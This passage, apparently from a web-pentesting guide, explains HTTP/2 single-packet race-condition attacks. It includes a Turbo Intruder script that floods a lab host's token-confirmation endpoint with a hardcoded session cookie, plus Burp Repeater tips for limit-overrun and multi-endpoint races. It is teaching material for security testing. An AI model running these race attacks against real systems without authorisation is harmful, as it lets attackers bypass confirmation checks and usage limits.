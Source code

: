 {% hint style="warning" %}
If the web doesn't support HTTP2 (only HTTP1.1) use `Engine.THREADED` or `Engine.BURP` instead of `Engine.BURP2`.
{% endhint %}

* **Tubo Intruder - HTTP2 single-packet attack (Several endpoints)**: In case you need to send a request to 1 endpoint and then multiple to other endpoints to trigger the RCE, you can change the `race-single-packet-attack.py` script with something like:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # Hardcode the second request for the RC
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''
    
    # For each attempt (20 in total) send 50 confirmation requests.
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'aUser' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)
```

* It's also available in **Repeater** via the new '**Send group in parallel**' option in Burp Suite.
  * For **limit-overrun** you could just add the **same request 50 times** in the group.
  * For **connection warming**, you could **add** at the **beginning** of the **group** some **requests** to some non static part of the web server.
  * For **delaying** the process **between** processing **one request and another** in a 2 substates steps, you could **add extra requests between** both requests.
  * For a **multi-endpoint** RC you could start sending the **request** that **goes to the hidden state** and then **50 requests** just after it that **exploits the hidden state**.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
